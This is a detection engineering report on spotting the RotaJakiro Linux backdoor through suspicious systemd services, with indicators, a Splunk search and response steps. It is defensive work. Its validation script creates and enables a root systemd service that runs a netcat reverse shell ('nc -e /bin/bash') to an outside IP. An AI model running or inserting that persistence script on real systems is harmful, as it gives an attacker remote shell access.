 RotaJakiro ADS Report
=========================
**Author:** *Aidan Border*

## Goal

Detect attempts to install the RotaJakiro backdoor on Linux hosts by looking for a dropped `systemd` services.

## Categorization

These attempts are categorized under [Persistence / Create or Modify System Process / Systemd service](https://attack.mitre.org/techniques/T1543/002)[^3].

## Strategy Abstract
Strategies for defending against this threat should go as follows:

* Use endpoint monitoring and protection tooling to monitor services or processes running on a Linux host.
* Look for specific service names or processes known to be used by RotaJakiro[^4]
  * sys-temd-agent.service
  * gvfsd-helper
  * systemd-daemon
* Fire an alert if any of these processes are found on the system.

## Technical Context

Most modern Linux systems use a project called `systemd` as their init system and services manager[^2]. `systemd` services are background programs that run to support different functionality. An example of a program that runs as a service is `sshd`, the OpenSSH Server daemon.

There are two directories that `systemd` will look for services in. 

1. System-wide services are located in /etc/systemd/system/services.
2. Services that run when a user logs in are located in ~/.config/systemd/user.

A `systemd` service can technically be used to automatically launch any software on the system. Threat actors can use this to auto-launch malicious software, such as starting a keylogger when a privileged user logs in to attempt to siphon administrator credentials to the system. It is important to note that a keylogger targeting X.Org is very easy to write. Installing a user-level service to log every keystroke to a file would be relatively easy given a way to run a shell script.

## Blind Spots and Assumptions

We assume the system uses systemd. Linux systems using other methods of init are not applicable for the ADS discussed here.

We assume RotaJakiro is running as root. If the backdoor is running as a normal user, it makes use of XDG Autostart (under a graphical environment) or .bashrc for users running without a desktop environment.[^5]

Unix systems, such as FreeBSD, do not use systemd. As such, the strategy discussed here is not applicable to those systems.

## False Positives

This alert may cause false positives for systems running the GNOME Desktop Environment if the backdoor is running without root privileges, as the backdoor masquerades as gvfsd, or the GNOME Virtual File System daemon.

## Validation

### Validating the Detection
Validation can be performed by executing the provided shell script[^1] to generate a systemd service in the /etc/systemd/system directory.

```bash
echo "[Unit]" > /etc/systemd/system/sys-temd-agent.service
echo "Description=Atomic Red Team Systemd Service" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Service]" >> /etc/systemd/system/sys-temd-agent.service
echo "Type=simple"
echo "ExecStart=nc -e /bin/bash 192.168.100.191 9001" >> /etc/systemd/system/sys-temd-agent.service
echo "ExecStop=echo haha youve been pwned" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Install]" >> /etc/systemd/system/sys-temd-agent.service
echo "WantedBy=graphical.target" >> /etc/systemd/system/sys-temd-agent.service
systemctl daemon-reload
systemctl enable sys-temd-agent.service
systemctl start sys-temd-agent.service
```

The detection should alert on the generated systemd service.

An example detection alerts on the following search in Splunk: 

```
host="rocky-detection-test" sourcetype="journald" sys-temd-agent.service
```

![Splunk screenshot showing the example rule](https://github.com/ABeeinSpace/ADS-Report/assets/48869372/43f90beb-e214-474b-a89e-94b386ef7956)

This search will alert every time the sys-temd-agent.service string appears in the journald log, so it is quite noisy right now.

> Note:
> For this example search to work, a Splunk Universal Forwarder must be configured to ship journald logs on the target system to Splunk. Additionally, threat detection engineers should adapt the "host" and "sourcetype" fields to their environment. The "host" field pulls from the target system's hostname. "rocky-detection-test" is probably not valid in your environment.

### Cleanup

Detection engineers may clean up from validating the detection against their environment by doing the following steps:

On the test system:
1. Disable the sys-temd-agent.service using `systemctl`.
2. Remove the sys-temd-agent.service file from the filesystem.
3. Execute `systemctl daemon-reload` to tell systemd that the services defined on the system have changed.
4. If it was set up for this test, remove the Splunk Universal Forwarder from the system (Using the RPM package, it will be installed in the `/opt/splunkforwarder` directory by default).

On the Splunk instance:
1. Remove any alerts defined in the Search and Reporting app.
2. If it was set up specifically for this test, remove the receiving rule from Settings > Forwarding and receiving > Configure receiving.
3. If a separate index was used for this test, remove the index from your Splunk Enterprise or Splunk Cloud environment.

## Priority

Since this is a backdoor with a variety of features, any true positive alerts fired from this detection are set to high.

## Response

The following steps should be taken immediately upon a true positive alert:
  * Remove the system from the network.
  * Disable the systemd service using `systemctl` to prevent it from running at boot, then stop the service. Alternatively, the system can simply be restarted. 
    * Depending on the security requirements of your environment, you may consider deleting the service file from the filesystem.
  * Kill the systemd-daemon binary if it is actively running.
    * Again, depending on your environment, the binary can be removed now as well.
  * Escalate to a security incident after the immediate threat has been removed.

## Additional Resources

DELETE BEFORE SUBMISSION: [GitHub Markdown Reference ](https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax#links)


[^1]: Shell script originally published by [Atomic Red Team](https://atomicredteam.io/privilege-escalation/T1543.002/#atomic-test-1---create-systemd-service). I removed the templates and added the path to the systemd service location and name of the systemd service.

[^2]: [Arch boot process - Arch Wiki](https://wiki.archlinux.org/title/Arch_boot_process)

[^3]: [MITRE ATT&CK - Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)

[^4]: [RotaJakiro: A long live secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)

[^5]: [Backdoor.Linux.ROTAJAKIRO.A](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/backdoor.linux.rotajakiro.a/) 
